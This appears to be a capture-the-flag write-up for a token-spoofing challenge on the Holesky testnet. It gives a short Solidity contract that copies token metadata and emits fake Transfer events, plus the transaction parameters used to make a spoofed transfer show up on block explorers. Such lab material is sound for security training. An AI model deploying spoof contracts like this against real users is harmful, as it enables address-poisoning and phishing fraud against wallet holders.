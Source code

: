 # Red Spoofing 2 🔀 - 200 Points

Despite your demo in the previous challenge, the client remains unconvinced that their token could be susceptible to a spoofing attack.

They argue that any attempt at a zero-value token transfer would simply revert on their soon-to-be-deployed token, due to on-chain validations. So it'd be impossible for attackers to mimic a legitimate transaction.

However, there’s ONE detail the client might be overlooking: an attacker could create a different contract, with the same symbol, name, and some events, replicating the appearance of an authentic transfer with the same amount on block explorers!

## Task

Remember that the original token transfer is:

`holesky-0x28e46dc92cd9a2df7776138d4a722ed474309569181e25465d2005a7090097a2`

Produce a transaction that executes your contract, which must mimic the token metadata (name & symbol), transferred amount and event of the transfer of the original token.

Note: for this challenge you'll need Holesky ETH to pay for the gas of your transaction.

## Flag

Once you've successfully executed the spoof token transfer in Holesky testnet, follow the instructions on this page to retrieve the flag:

https://therektgames-containers.vercel.app/redspoofing-3

# @Audit

### Step 1: Create .sol contract with all `functions` and `event`:

```js
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.20;

contract StableSpoof {
    address public immutable OWNER = msg.sender;
    string public name = "StableSpoof";
    string public symbol = "SPOOF";
    uint256 public decimals = 18;
    address owner = 0x31337357A04758b6EA1870Cef0880F20205ad523;

    event Transfer(address indexed from, address indexed to, uint256 amount);

    function transfer(address to, uint256 value) public returns (bool) {
        emit Transfer(owner, to, value);
        return true;
    }
}

```

tx: https://holesky.etherscan.io/tx/0x47f7ed6ed05cd469e2f3b1bba4788f445e6c961e6416cc58948cf0bb14ba44d9

### Step 2: Send a tx:

Function: transfer(address to,uint256 amount)
. Name Type Data
0 to address 0x7d2f41720FCdaC9b4d398Dc59BA1389e3Aa66023
1 amount uint256 1000000000000000000

[Solution] - - tx: https://holesky.etherscan.io/tx/0x461060c55c8e107dc2577c16180597534c3a9be19ea8bb4564538070e3e1cd07
